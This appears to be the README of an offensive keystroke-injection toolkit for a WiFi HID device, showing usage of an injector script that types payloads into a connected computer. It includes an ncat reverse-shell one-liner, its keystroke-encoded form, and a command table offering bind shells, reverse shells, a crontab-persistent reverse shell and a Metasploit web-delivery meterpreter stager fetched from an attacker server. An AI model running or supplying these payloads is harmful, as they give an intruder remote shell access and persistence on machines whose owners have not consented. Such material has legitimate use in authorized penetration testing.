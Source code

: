 **Warning** : Newest version of WHID Toolkit expect the WHID to have a firmware in the prefered language, alternatively you can force the french keyboard with the english firmware using the `--force` arguments. For more customization informations go to swisskyrepo.github.io .

Where to buy a WHID Injector ? I got mine from [Aliexpress](https://www.aliexpress.com/item/Cactus-Micro-compatible-board-plus-WIFI-chip-esp8266-for-atmega32u4/32318391529.html)

## How to use the script
```c
python3 injector.py -v --host 127.0.0.1 --port 4242 --payload payloads/windows.txt -h                 
usage: injector.py [-h] [-v] [--host [HOST]] [--port [PORT]]
                       [--user [USER]] [--pass [PASS]] [--panel [PANEL]]
                       [--payload [PAYLOAD]]

optional arguments:
  -h, --help           show this help message and exit
  -v                   Verbosity of the output
  --host [HOST]        Host reverse-shell
  --port [PORT]        Port reverse-shell
  --user [USER]        Wifi Panel username
  --pass [PASS]        Wifi Panel password
  --panel [PANEL]      Wifi Panel password
  --payload [PAYLOAD]  Payload template
```

Targeting a Windows OS
```c
python3 injector.py -v --host 127.0.0.1 --port 4242 --payload payloads/windows.txt
```

Send a simple reverse-shell payload
```
$ python3 injector.py -v --host 127.0.0.1 --port 4444
     -------------------------------------------------------------
      WHID injector - You need to be connected to the Exploit AP
     -------------------------------------------------------------
                   __   °
                 <(o )___
                  ( ._> /
                   `---'                      @pentest_swissky

Enter a payload, eg: bash -c 'nohup ncat 127.0.0.1 4242 -e $SHELL &'
-------------------------------------------------------------------
>>> reverse
Payload:
Rem:Default Payload
Press:130+195
CustomDelay:1000
Print:bqsh 6c 4nohup ncqt !@&<)<)<! $$$$ 6e ]SHELL 14
CustomDelay:1000
Press:176

Sending payload to http://192.168.1.1/runlivepayload
```

## Payloads and commands
| Commands       | Description                           |
| :------------- | :-------------                        |
| bind           | initiate a bind shell on results.port |
| reverse        | initiate a reverse shell on results.host and results.port |
| crontab        | set up a crontab reverse shell on results.host and results.port |
| meterpreter [https://YOUR_SERVER_IP:4646/posh-payload] | use exploit/multi/script/web_delivery with a posh-payload    |
| send some text | send the specified text              |
| h              | help                                 |
| q              | quit                                 |

You can change the options with `SET option_name option_value`
```c
>>> set host 127.0.0.1
>>> set port 4444
```

Thanks to: swisskyrepo

